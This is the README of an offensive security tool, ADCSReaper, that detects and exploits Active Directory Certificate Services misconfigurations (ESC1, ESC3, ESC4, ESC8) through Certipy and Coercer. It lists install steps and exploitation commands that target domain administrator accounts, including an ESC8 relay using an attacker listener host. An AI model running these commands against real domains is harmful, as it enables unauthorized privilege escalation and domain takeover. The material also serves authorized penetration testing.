 # ADCSReaper
A modular tool for enumerating and exploiting misconfigurations in Active Directory Certificate Services (ADCS).


```
 ▄▄▄      ▓█████▄  ▄████▄    ██████  ██▀███  ▓█████ ▄▄▄       ██▓███  ▓█████  ██▀███
▒████▄    ▒██▀ ██▌▒██▀ ▀█  ▒██    ▒ ▓██ ▒ ██▒▓█   ▀▒████▄    ▓██░  ██▒▓█   ▀ ▓██ ▒ ██▒
▒██  ▀█▄  ░██   █▌▒▓█    ▄ ░ ▓██▄   ▓██ ░▄█ ▒▒███  ▒██  ▀█▄  ▓██░ ██▓▒▒███   ▓██ ░▄█ ▒
░██▄▄▄▄██ ░▓█▄   ▌▒▓▓▄ ▄██▒  ▒   ██▒▒██▀▀█▄  ▒▓█  ▄░██▄▄▄▄██ ▒██▄█▓▒ ▒▒▓█  ▄ ▒██▀▀█▄
 ▓█   ▓██▒░▒████▓ ▒ ▓███▀ ░▒██████▒▒░██▓ ▒██▒░▒████▒▓█   ▓██▒▒██▒ ░  ░░▒████▒░██▓ ▒██▒
 ▒▒   ▓▒█░ ▒▒▓  ▒ ░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░░ ▒▓ ░▒▓░░░ ▒░ ░▒▒   ▓▒█░▒▓▒░ ░  ░░░ ▒░ ░░ ▒▓ ░▒▓░
  ▒   ▒▒ ░ ░ ▒  ▒   ░  ▒   ░ ░▒  ░ ░  ░▒ ░ ▒░ ░ ░  ░ ▒   ▒▒ ░░▒ ░      ░ ░  ░  ░▒ ░ ▒░
  ░   ▒    ░ ░  ░ ░        ░  ░  ░    ░░   ░    ░    ░   ▒   ░░          ░     ░░   ░
      ░  ░   ░    ░ ░            ░     ░        ░  ░     ░  ░            ░  ░   ░
           ░      ░

```

## Features

- 🔍 Automated discovery of vulnerable certificate templates (ESC1, ESC3, ESC4, ESC8)
- 💣 Exploitation automation via Certipy & Coercer
- ✅ Safety checks to avoid unintended behavior
- 🔐 PFX file validation
- 📄 Structured logging with log rotation
- 🔧 Easily extensible architecture

## Requirements

- Python 3.8+
- Tools (installed & in $PATH):
  - [Certipy](https://github.com/ly4k/Certipy)
  - [Coercer](https://github.com/p0dalirius/Coercer)

```bash
# Certipy
pipx install git+https://github.com/ly4k/Certipy.git

# Coercer
sudo python3 -m pip install coercer
```

## Quickstart / Setup

```bash
pipx install git+https://github.com/G0urmetD/ADCSReaper.git
adcsreaper -h
```

## Usage
### Detection Only
```bash
adcsreaper -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -detect
```

### Exploit ESC1
```bash
# default Administrator
adcsreaper -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc1

# custom target user
adcsreaper -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc1 -target-user Admin2
```

### Exploit ESC3
```bash
adcsreaper -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc3
```

### Exploit ESC4
```bash
adcsreaper -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc4
```

### Exploit ESC8
```bash
adcsreaper -domain domain.local -username admin -password 'Pass123' -dc-ip 10.10.10.1 -exploit -esc esc8 -lhost 192.168.1.5
```

## Logging
- /var/log/adcsreaper/adcsreaper.log
